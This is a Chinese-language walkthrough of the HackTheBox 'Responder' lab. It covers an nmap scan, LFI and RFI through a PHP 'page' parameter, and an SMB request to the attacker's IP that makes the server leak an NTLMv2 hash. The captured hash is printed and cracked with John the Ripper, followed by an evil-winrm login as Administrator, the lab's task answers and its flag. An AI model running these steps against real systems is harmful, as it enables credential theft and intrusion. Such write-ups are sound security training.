





這篇文章記錄了我打 Starting Point 中 Responder 靶機的過程，其中利用 Responder 攔截 NTLM hash 爆破的技巧也是第一次認識，故想透過撰寫此文章來加深對這個利用方式的印象。

打靶機的過程大致上如下：

- 利用 RFI 漏洞向 Kali 發送 SMB 的存取請求
- Responder 攔截 NTLM 雜湊
- John The Ripper 離線爆破密碼
- evil-winrm 遠端存取主機並取得 flag

## Reconnaissance

首先要先了解我們的目標，上面開了那些 port？哪些服務？方便我們後續枚舉可能的弱點。

```shell
sudo nmap -p- --min-rate 1000 -sV -v -oA initial 10.129.241.9
```

在這裡設定 `--min-rate 1000` 加速 Nmap 的掃描、`-sV` 掃描服務的版本，指定 `-p-` 掃描所有 port。

```shell
cat initial.nmap
# Nmap 7.95 scan initiated Wed May 28 02:58:38 2025 as: /usr/lib/nmap/nmap -p- --min-rate 1000 -sV -v -oA initial 10.129.241.9
Nmap scan report for 10.129.241.9
Host is up (0.31s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE    VERSION
80/tcp   open  http       Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
5985/tcp open  http       Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
7680/tcp open  pando-pub?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed May 28 03:01:57 2025 -- 1 IP address (1 host up) scanned in 199.57 seconds
```

從掃描的結果來看，我們得知目標主機是 Windows，有開網頁服務（port 80）。Port 5985 是 Windows Remote Management (WinRM) 服務的默認通訊埠，它使用 HTTP 協定進行通訊，這對後續可能的遠程訪問非常重要。而 port 7680 經過搜尋得知，是 Windows 用來傳遞最佳化的（Delivery Optimization）通訊 port。

嘗試打開瀏覽器瀏覽網頁，會發現網址列被重新導向到 <http://unika.htb/> ，而且網頁沒辦法正常顯示。這是因為我們的系統無法解析 unika.htb 這個域名。這種情況下，我們可以透過修改主機的 `/etc/hosts` 檔案來偽造 DNS 解析。



之後重新刷新頁面，就可以正常存取網頁了。



> **Task 1**
>
> When visiting the web service using the IP address, what is the domain that we are being redirected to?

Ans: `unika.htb`

## Fuzzing

在四處逛逛網站後，發現除了切換語言的功能外，其他都只是在同一個頁面而已。而且切換語言的網址參數，除了讓我們知道這是 PHP 寫的網站外，還有一股濃濃的 LFI（Local File Include）味。LFI 是一種常見的網站漏洞，允許攻擊者讀取伺服器上的任意檔案，通常是透過操縱網址參數來實現的。



從網址列可以看到，網站使用 `page` 參數來載入不同的頁面內容，例如 `?page=french.html`。如果網站沒有妥善過濾這個參數，攻擊者可能能夠存取系統上的其他檔案。

> **Task 2**
>
> Which scripting language is being used on the server to generate webpages?

Ans: `php`

此時，Task 4 很貼心地告訴我們可以試試那些路徑。

> **Task 4**
>
> Which of the following values for the `page` parameter would be an example of exploiting a Local File Include (LFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"

Ans: `../../../../../../../../windows/system32/drivers/etc/hosts`

當我們訪問 `http://unika.htb/?page=../../../../../../../../windows/system32/drivers/etc/hosts` 時，網頁顯示了目標系統的 hosts 文件內容，這證實了 LFI 漏洞的存在。這種漏洞允許我們讀取伺服器上的任意檔案。



Task 5 則是問 RFI 的可能，如果能製造 SMB 存取 `//<ip>/<file>`，就有辦法達成。

> **Task 5**
>
> Which of the following values for the `page` parameter would be an example of exploiting a Remote File Include (RFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"

Ans: `//10.10.14.6/somefile`

RFI（Remote File Include）與 LFI 類似，但它允許攻擊者從外部服務器載入檔案，而不僅僅是本地檔案。在 Windows 環境中，當系統嘗試通過 SMB 協定訪問如 `//10.10.14.6/somefile` 的路徑時，Windows 會自動發送認證資訊到指定的 IP 地址。這是我們接下來要利用的關鍵。

## Exploit

Task 6 和 Task 7 給了我一點漏洞利用的方向。

> **Task 6**
>
> What does NTLM stand for?

Ans: `New Technology LAN Manager`

Task 7 是在問 [Responder](https://github.com/SpiderLabs/Responder) 的使用方式，在 GitHub README 底下的 Usage 有介紹。

> **Task 7**
>
> Which flag do we use in the Responder utility to specify the network interface?

Ans: `-I`

此時可以猜測題目應該是希望我們用 Responder 做些什麼。

> Responder 是一個用於內網的 LLMNR/NBT-NS/MDNS 偽造與憑證攔截工具，由 SpiderLabs 開發。它可以攔截來自受害者主機對內部資源名稱解析失敗時所發出的廣播封包，進而誘騙其將認證資料發送給攻擊者。

我們先啟動 responder 接收傳送過來的 challenge，接著透過 `ip a` 找到對應網路介面的 ip，用 LFI 那向 Kali 請求 SMB，就可以拿到 NTLM hash。

```shell
sudo responder -I tun0
```

在 Responder 啟動後，我們需要讓目標伺服器嘗試訪問我們的 SMB 共享。這可以通過訪問 URL `http://unika.htb/?page=//10.10.14.211/somefile` 來實現，其中 10.10.14.211 是我們 tun0 介面的 IP 地址。

```shell
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host noprefixroute 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:0c:29:27:59:74 brd ff:ff:ff:ff:ff:ff
    inet 192.168.238.136/24 brd 192.168.238.255 scope global dynamic noprefixroute eth0
       valid_lft 1164sec preferred_lft 1164sec
    inet6 fe80::1bad:92f9:1caa:d55e/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
3: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UNKNOWN group default qlen 500
    link/none 
    inet 10.10.14.211/23 scope global tun0
       valid_lft forever preferred_lft forever
    inet6 dead:beef:2::10d1/64 scope global 
       valid_lft forever preferred_lft forever
    inet6 fe80::1b3f:7c6d:766d:61d3/64 scope link stable-privacy proto kernel_ll 
       valid_lft forever preferred_lft forever
```

當目標伺服器嘗試訪問我們的 SMB 共享時，Windows 會自動發送 NTLM 認證。Responder 會攔截這些認證資訊，並顯示 NTLMv2 Hash：

```shell
[SMB] NTLMv2-SSP Client   : 10.129.241.9
[SMB] NTLMv2-SSP Username : RESPONDER\Administrator
[SMB] NTLMv2-SSP Hash     : Administrator::RESPONDER:c82e9172cb2055ac:DF80ECEC344B3438059F3EA98402AFD0:010100000000000080A50DD883CFDB01B027F078E1C1CAD30000000002000800580045005800500001001E00570049004E002D004B0034005600480031003800320055004B005200410004003400570049004E002D004B0034005600480031003800320055004B00520041002E0058004500580050002E004C004F00430041004C000300140058004500580050002E004C004F00430041004C000500140058004500580050002E004C004F00430041004C000700080080A50DD883CFDB01060004000200000008003000300000000000000001000000002000008BC6BD2BAA6A8C55F64809FC9B6533243065873B3A9D284456405EE4E21811460A001000000000000000000000000000000000000900220063006900660073002F00310030002E00310030002E00310034002E003200310031000000000000000000
```

## Password Cracking

收到 NTLM hash 後，就可以嘗試使用 John The Ripper 離線破解密碼。

> **Task 8**
>
> There are several tools that take a NetNTLMv2 challenge/response and try millions of passwords to see if any of them generate the same response. One such tool is often referred to as `john`, but the full name is what?.

Ans: `John The Ripper`

首先，我們將剛才獲取的 NTLMv2 Hash 保存到 `hashes.txt` 文件中，然後使用 John The Ripper 工具和常見密碼字典（`rockyou.txt`）進行爆破：

```shell
john --format=netntlmv2 hashes.txt -w /usr/wordlists/rockyou.txt
```

John The Ripper 會嘗試字典中的每個密碼，直到找到一個匹配的。在這個案例中，成功破解出管理員密碼為 `badminton`。

> **Task 9**
>
> What is the password for the administrator user?

Ans: `badminton`

## Access Target

> **Task 10**
>
> We'll use a Windows service (i.e. running on the box) to remotely access the Responder machine using the password we recovered. What port TCP does it listen on?

Ans: `5985`

拿到密碼後，我們可以嘗試登入 WinRM。

> Evil-WinRM 是一個專門設計來與目標 Windows 主機上的 WinRM 服務互動的工具，允許滲透測試人員或紅隊人員：
>
> - 登入目標機（如取得 Administrator 密碼）
> - 上傳 / 下載檔案
> - 執行指令、PowerShell 腳本
> - 植入 payload、Dump hash、提權腳本等

我們使用以下命令連接到目標主機的 WinRM 服務：

```shell
sudo evil-winrm -i 10.129.241.9 -u Administrator -p badminton
```

登入對方主機後，我們就可以在目標系統上執行命令並瀏覽檔案系統，可以看到除了管理員還有其他使用者，然後就在 mike 桌上找到 flag 了。



> **Submit Flag**
>
> Submit root flag

Ans: `ea81b7afddd03efaa0945333ed147fac`
